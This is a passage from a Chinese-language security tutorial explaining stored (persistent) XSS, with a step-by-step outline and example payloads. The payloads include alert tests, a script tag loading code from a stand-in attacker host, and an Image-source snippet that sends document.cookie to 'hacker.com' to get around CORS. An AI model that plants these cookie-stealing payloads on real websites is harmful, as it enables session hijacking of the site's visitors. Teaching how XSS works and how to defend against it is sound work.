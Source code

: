 ### 1.存储型 XSS

存储型 XSS，也就是持久型 XSS。攻击者上传的包含恶意 JS 脚本的信息被 Web 应用程序保存到数据库中，Web 应用程序在生成新的页面的时候如果包含了该恶意 JS 脚本，这样会导致所有访问该网页的浏览器解析执行该恶意脚本。这种攻击类型一般常见在博客、论坛等网站中。

> 存储型是最危险的一种跨站脚本，比反射性 XSS 和 Dom 型 XSS 都更有隐蔽 性。 因为它不需要用户手动触发，任何允许用户存储数据的 web 程序都可能存 在存储型 XSS 漏洞。 若某个页面遭受存储型 XSS 攻击，所有访问该页面的用户会被 XSS 攻击。

![存储型XSS](http://md7.admin4j.com/blog/image-20230329144100942.png)

**攻击步骤：**

1. 攻击者把恶意代码提交到目标网站的数据库中
2. 用户打开目标网站，网站服务端把恶意代码从数据库中取出，拼接在 HTML 上返回给用户
3. 用户浏览器接收到响应解析执行，混在其中的恶意代码也被执行
4. 恶意代码窃取用户敏感数据发送给攻击者，或者冒充用户的行为，调用目标 网站接口执行攻击者指定的操作

存储型 XSS(又被称为持久性 XSS)攻击常见于带有用户保存数据的网站功能，如论坛发帖、商品评论、用户私信、留言等功能。

（1）简单攻击

\- 测试路径：http://www.edu.com/storexss.html

```
<script>alert('hello');</script>
```

（2）获取 cookie 信息：

\- 登录窗口：http://www.edu.com/storexss.html

```
<script>alert(document.cookie)</script>
```

（3）黑客窃取 cookie：

用户窃取 cookie，具体实现就是将用户的 cookie 值发送到黑客工具箱，那 么就需要将窃取用户 cookie 的 js 植入到系统中。考虑到窃取用户的 js 脚本过长不 宜直接编写脚本植入，可以通过外部脚本的方式实现

```
<script src="http://www.hacker.com/script/hacker.js">
</script>
```

窃取失败：

```
Access to XMLHttpRequest at 'http://www.hacker.com/s?c=url:htt p://www.edu.com/lm/query%20cookie:JSESSIONID=6756A3597BDC58B29A BF7806F4B533AD' from origin 'http://www.edu.com' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource.
```

（4）绕过浏览器同源策略：

图片可以加载外部的数据源

```
(function () {
    (new Image()).src = 'http://www.hacker.com/h?c=' +escape("url=" + document.location.href) +escape('&cookie=' + document.cookie);
})();
```
